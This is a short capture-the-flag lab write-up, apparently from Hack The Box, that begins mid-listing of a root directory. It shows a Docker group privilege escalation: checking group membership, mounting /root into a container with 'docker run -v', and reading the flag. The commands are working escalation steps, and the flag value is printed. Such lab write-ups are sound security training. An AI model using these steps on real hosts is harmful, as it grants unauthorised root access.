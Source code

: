 ```shell-session
drwx------   6 root root  4096 Sep 26 21:11 root
drwxr-xr-x  28 root root   920 Oct 24 13:32 run
lrwxrwxrwx   1 root root     8 Apr 23  2020 sbin -> usr/sbin
drwxr-xr-x   7 root root  4096 Oct  7  2021 snap
drwxr-xr-x   2 root root  4096 Apr 23  2020 srv
dr-xr-xr-x  13 root root     0 Oct 24 13:28 sys
drwxrwxrwt  13 root root  4096 Oct 24 13:44 tmp
drwxr-xr-x  14 root root  4096 Sep 22 11:11 usr
drwxr-xr-x  13 root root  4096 Apr 23  2020 var
```

## Challenge

### Checking groups
```shell-session
htb-student@ubuntu:/home$ id
uid=1001(htb-student) gid=1001(htb-student) groups=1001(htb-student),118(docker)
```

### Listing Docker Containers
```shell-session
htb-student@ubuntu:/home$ docker image ls
REPOSITORY   TAG       IMAGE ID       CREATED         SIZE
ubuntu       latest    5a81c4b8502e   11 months ago   77.8MB
```

### Attaching the /root Folder to the Container and Entering the Container
```shell-session
htb-student@ubuntu:/home$ docker run -it -v /root:/mnt/data ubuntu:latest bash
root@4d8781efae75:/#
```

### Listing the Flag
```shell-session
root@4d8781efae75:/mnt/data# cat flag.txt
HTB{D0ck3r_Pr1vE5c}
```
